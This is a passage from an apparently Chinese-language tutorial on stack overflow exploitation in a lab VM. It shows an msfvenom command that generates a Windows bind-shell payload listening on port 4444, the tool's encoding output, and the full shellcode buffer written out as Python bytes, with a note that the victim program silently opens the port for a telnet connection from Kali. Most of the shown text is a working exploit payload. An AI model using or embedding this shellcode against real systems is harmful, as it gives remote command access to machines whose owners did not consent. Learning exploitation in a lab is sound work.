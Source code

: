 ![calc](栈溢出原理及实验/calc.png)

现在我们尝试生成一个有远程shell的exp。想想也是有点激动。当软件打开exp时，软件不会有很明显的弹窗（感觉像软件崩溃了一样，不再对我的操作有反应），但是会打开4444端口等待连接。然后我用kali用telnet去连接
```powershell
//虚拟机的ip为192.168.217.128 默认端口为4444
PS C:\metasploit-framework\bin> .\msfvenom.bat -p windows/shell_bind_tcp -b '\x00' x86/alpha_upper -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of py file: 1710 bytes
buf =  ""
buf += "\xbf\xad\xe1\xca\x86\xdb\xda\xd9\x74\x24\xf4\x5a\x29"
buf += "\xc9\xb1\x53\x31\x7a\x12\x83\xc2\x04\x03\xd7\xef\x28"
buf += "\x73\xdb\x18\x2e\x7c\x23\xd9\x4f\xf4\xc6\xe8\x4f\x62"
buf += "\x83\x5b\x60\xe0\xc1\x57\x0b\xa4\xf1\xec\x79\x61\xf6"
buf += "\x45\x37\x57\x39\x55\x64\xab\x58\xd5\x77\xf8\xba\xe4"
buf += "\xb7\x0d\xbb\x21\xa5\xfc\xe9\xfa\xa1\x53\x1d\x8e\xfc"
buf += "\x6f\x96\xdc\x11\xe8\x4b\x94\x10\xd9\xda\xae\x4a\xf9"
buf += "\xdd\x63\xe7\xb0\xc5\x60\xc2\x0b\x7e\x52\xb8\x8d\x56"
buf += "\xaa\x41\x21\x97\x02\xb0\x3b\xd0\xa5\x2b\x4e\x28\xd6"
buf += "\xd6\x49\xef\xa4\x0c\xdf\xeb\x0f\xc6\x47\xd7\xae\x0b"
buf += "\x11\x9c\xbd\xe0\x55\xfa\xa1\xf7\xba\x71\xdd\x7c\x3d"
buf += "\x55\x57\xc6\x1a\x71\x33\x9c\x03\x20\x99\x73\x3b\x32"
buf += "\x42\x2b\x99\x39\x6f\x38\x90\x60\xf8\x8d\x99\x9a\xf8"
buf += "\x99\xaa\xe9\xca\x06\x01\x65\x67\xce\x8f\x72\x88\xe5"
buf += "\x68\xec\x77\x06\x89\x25\xbc\x52\xd9\x5d\x15\xdb\xb2"
buf += "\x9d\x9a\x0e\x2e\x95\x3d\xe1\x4d\x58\xfd\x51\xd2\xf2"
buf += "\x96\xbb\xdd\x2d\x86\xc3\x37\x46\x2f\x3e\xb8\x79\xec"
buf += "\xb7\x5e\x13\x1c\x9e\xc9\x8b\xde\xc5\xc1\x2c\x20\x2c"
buf += "\x7a\xda\x69\x26\xbd\xe5\x69\x6c\xe9\x71\xe2\x63\x2d"
buf += "\x60\xf5\xa9\x05\xf5\x62\x27\xc4\xb4\x13\x38\xcd\x2e"
buf += "\xb7\xab\x8a\xae\xbe\xd7\x04\xf9\x97\x26\x5d\x6f\x0a"
buf += "\x10\xf7\x8d\xd7\xc4\x30\x15\x0c\x35\xbe\x94\xc1\x01"
buf += "\xe4\x86\x1f\x89\xa0\xf2\xcf\xdc\x7e\xac\xa9\xb6\x30"
buf += "\x06\x60\x64\x9b\xce\xf5\x46\x1c\x88\xf9\x82\xea\x74"
buf += "\x4b\x7b\xab\x8b\x64\xeb\x3b\xf4\x98\x8b\xc4\x2f\x19"
buf += "\xbb\x8e\x6d\x08\x54\x57\xe4\x08\x39\x68\xd3\x4f\x44"
buf += "\xeb\xd1\x2f\xb3\xf3\x90\x2a\xff\xb3\x49\x47\x90\x51"
buf += "\x6d\xf4\x91\x73"
```